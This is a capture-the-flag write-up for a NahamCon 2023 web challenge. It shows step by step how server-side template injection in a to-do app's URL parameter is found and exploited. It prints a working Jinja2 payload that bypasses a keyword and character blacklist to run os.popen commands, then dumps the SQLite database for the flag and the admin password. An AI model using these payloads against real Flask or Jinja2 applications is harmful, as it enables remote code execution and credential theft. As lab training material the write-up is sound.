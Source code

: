 >Author: @congon4tor#2334  
>  
>Every Capture the Flag competition has to have an obligatory to-do list application, right???
---------------------------------
Firstly, we are greeted with a sign-in page

![Pasted image 20230616165433.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616165433.png)
Typical admin:admin guesses do not work, so after making a new account

![Pasted image 20230616165611.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616165611.png)

I created a new task `asdf`, and this is the result. After exploring the POST parameters done during submission, as well as how things are altered when tasks are moved between active and completed, I did not see any interesting pattern. The most notable piece is that trashing my first task leads to `http://challenge.nahamcon.com:32053/delete?id=2`. However, `id=1` appears inaccessible. 

When I turned my attention to the greentext, I noticed in the url we see this as well:
`http://challenge.nahamcon.com:32053/?success=Task%20created`
Editing the success= component will affect what is being displayed in green. After playing for a bit, I noticed that this is actually vulnerable to SSTI:
`http://challenge.nahamcon.com:32053/?success={{7*7}}`

![Pasted image 20230616154856.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616154856.png)

Doing actions such as `curl -v` did not give any insight on the framework being used, but exploring the SSTI a little further gave me the impression that this is likely Jinja2:
`http://challenge.nahamcon.com:32053/?success={{7*'7'}}``

![Pasted image 20230616155028.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616155028.png)

Knowing this, I tried some simple enumerations before I find the true difficulty of this challenge:
`http://challenge.nahamcon.com:32053/?success={{config}}`

![Pasted image 20230616170342.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616170342.png)

```
HACKER DETECTED!!!!  
The folowing are not allowed: [ {{\s*config\s*}},.*class.*,.*mro.*,.*import.*,.*builtins.*,.*popen.*,.*system.*,.*eval.*,.*exec.*,.*\..*,.*\[.*,.*\].*,.*\_\_.* ]
```

It wasn't obvious to me at first, but the real trouble is that any command containing a dot, or square brackets, is blocked.
After spending a good amount of time looking for ways to bypass the filter, I eventually ran into [this post](https://hackmd.io/@Chivato/HyWsJ31dI). Importantly, the writer manages to create a payload to bypass ".","\_", "[]", and even "|join". 

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

Our blacklist also includes some functions that were used, which I bypassed by breaking between quotes (popen -> po''pen).

```
http://challenge.nahamcon.com:32053/?success={{request|attr(%27application%27)|attr(%27\x5f\x5fglobals\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(%27\x5f\x5fbuil%27%27tins\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(%27\x5f\x5fimp%27%27ort\x5f\x5f%27)(%27os%27)|attr(%27po%27%27pen%27)(%27id%27)|attr(%27read%27)()}}
```

![Pasted image 20230616171249.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616171249.png)

We have successful code execution!! Now all that remains is to find the flag.

After some enumeration of where the flag might be, I began to think that perhaps there isn't a `flag.txt` file after all. When I check the contents of the cwd:
```bash
drwxr-xr-x    1 root     root          4096 Jun 14 17:54 .
drwxr-xr-x    1 root     root          4096 Jun 14 17:54 ..
drwxr-xr-x    1 uwsgi    uwsgi         4096 Jun 16 20:55 DB
-rw-r--r--    1 root     root           159 Jun 14 17:53 app.ini
-rwxr-xr-x    1 root     root          6693 Jun 14 17:53 app.py
-rw-r--r--    1 root     root           792 Jun 14 17:53 models.py
-rw-r--r--    1 root     root           138 Jun 14 17:53 requirements.txt
drwxr-xr-x    2 root     root          4096 Jun 14 17:53 templates
```
I notice the DB folder, and I recall that my task id's started at 2. Perhaps the flag is in admin's task list, for id number 1?

Looking inside the DB folder:
```
drwxr-xr-x    1 uwsgi    uwsgi         4096 Jun 16 20:55 .
drwxr-xr-x    1 root     root          4096 Jun 14 17:54 ..
-rw-r--r--    1 uwsgi    uwsgi        16384 Jun 16 20:55 db.sqlite
```

Unfortunately, opening a sqlite file is a bit tricky with the RCE that I am currently using. Moreover, dots are still blacklisted. It is fortunate that this folder only has one file, so we can use wildcard * to select `db.sqlite` without using dot. When I try `cat /usr/src/app/DB/*`:

![Pasted image 20230616172048.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616172048.png)

It seems there are issues when trying to output invalid characters, causing the internal server error. As a last attempt, I decided to try `strings`, which should only output legitimate utf-8 friendly characters. However, it is not guaranteed that the flag could remain intact for this.

Request:
```
view-source:http://challenge.nahamcon.com:32053/?success={{request|attr(%27application%27)|attr(%27\x5f\x5fglobals\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(%27\x5f\x5fbuil%27%27tins\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(%27\x5f\x5fimp%27%27ort\x5f\x5f%27)(%27os%27)|attr(%27po%27%27pen%27)(%27strings%20/usr/src/app/DB/db*%27)|attr(%27read%27)()}}
```

Output:
```bash
tabletasktask
CREATE TABLE task (
	id INTEGER NOT NULL, 
	name VARCHAR(100), 
	completed BOOLEAN, 
	user_id INTEGER, 
	PRIMARY KEY (id), 
	CHECK (completed IN (0, 1)), 
	FOREIGN KEY(user_id) REFERENCES user (id)
tableuseruser
CREATE TABLE user (
	id INTEGER NOT NULL, 
	username VARCHAR(40), 
	password VARCHAR(50), 
	PRIMARY KEY (id), 
	UNIQUE (username)
indexsqlite_autoindex_user_1user
asdfasdf
-adminT2dUL6Z#S9KH%x%i
asdf
	admin
asdf
	flag{7b5b91c60796488148ddf3b227735979}
```

Very foturnately, the flag not only survived but is very readable!
`flag{7b5b91c60796488148ddf3b227735979}`

As a side note, we have the password for `admin` now too, and can log in.
`admin:T2dUL6Z#S9KH%x%i`

![Pasted image 20230616172852.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616172852.png)

